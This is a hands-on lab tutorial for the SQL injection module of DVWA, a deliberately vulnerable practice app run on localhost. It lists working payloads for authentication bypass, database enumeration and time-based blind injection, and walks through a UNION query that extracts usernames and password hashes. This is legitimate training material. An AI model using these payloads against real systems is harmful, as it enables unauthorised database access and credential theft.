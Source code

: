 # SQL Injection Exercise 

1. **Access DVWA**:
   - Open your browser and navigate to `http://localhost:89`.

2. **Log In to DVWA**:
   - Use the credentials: **Username**: `admin`, **Password**: `password`.

3. **Set Security Level**:
   - Go to the **DVWA Security** tab and set the security level to **Low**.

4. **Select the SQL Injection Module**:
   - In the left sidebar, select **SQL Injection** from the list of modules.

5. **Perform a Basic SQL Injection**:
   - You will see a field where you can enter a **User ID** to retrieve information from the database.
   - Normally, entering `1` and clicking **Submit** returns information associated with User ID 1.

6. **Inject SQL Payloads**:

| **Use Case**                      | **Payload**                                                            | **Explanation**                                                                                   | **Expected Behavior**                                                                                       |
|-----------------------------------|------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------|
| **Authentication Bypass**         | `' OR '1'='1 --`                                                      | Bypasses authentication by injecting an always-true condition.                                   | Logs in successfully without valid credentials.                                                             |
| **Extract Database Version**      | `1' UNION SELECT null, @@version --`                                  | Retrieves the database version (`@@version` is MySQL-specific).                                  | Displays the MySQL version, e.g., `8.0.28`.                                                                 |
| **Retrieve Current Database Name**| `1' UNION SELECT null, database() --`                                 | Extracts the name of the currently selected database.                                             | Displays the database name, e.g., `dvwa`.                                                                   |
| **List All Tables**               | `1' UNION SELECT null, table_name FROM information_schema.tables --`  | Fetches all table names from the `information_schema.tables`.                                     | Displays a list of table names such as `users`, `logs`, etc.                                                |
| ***List Columns in a Table***       | `1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' --` | Lists column names in the `users` table.                                                         | Displays column names like `id`, `username`, `password`.                                                   |
| **Time-Based Blind Injection**    | `1' AND IF(1=1, SLEEP(5), null) --`                                   | Delays response by 5 seconds if the condition `1=1` is true. Useful for blind SQL Injection.      | A 5-second delay confirms successful injection.     

# Basic Union-Based Injection to Retrieve Usernames and Passwords

 ```sql
 1' UNION SELECT null, user, password FROM users --
```

***It will result in an error, that is we need to determine exact number of columns in the original query.***

 ```sql
1' ORDER BY 3 --
1' ORDER BY 2 --
```

***Adjust the number after ORDER BY until you no longer get an error. This determines the number of columns in the original query.***

**After we know the exact number of columns (in this case 2), we update our query**

```sql
1' UNION SELECT user, password FROM users --
```

